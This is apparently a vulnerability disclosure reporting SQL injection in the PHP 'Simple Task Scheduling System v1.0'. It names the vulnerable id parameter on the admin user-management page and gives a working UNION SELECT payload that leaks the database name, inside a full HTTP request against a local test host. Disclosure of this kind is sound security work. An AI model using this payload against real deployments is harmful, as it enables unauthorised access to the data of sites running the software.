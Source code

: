 # Simple Task Scheduling System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15328/simple-task-scheduler-system-phpoop-free-source-code.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /tss/admin/?page=user/manage_user&id=

Vulnerability location: /tss/admin/?page=user/manage_user&id=, id

db_name = tss_db;length=6

[+] Payload: /tss/admin/?page=user/manage_user&id=-7%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11--+ // Leak place ---> id

```sql
GET /tss/admin/?page=user/manage_user&id=-7%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=tc6akb10bh652defck09t9eug4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/179391954-1faf970a-02cf-4aa4-93ed-f553c28921e2.png)
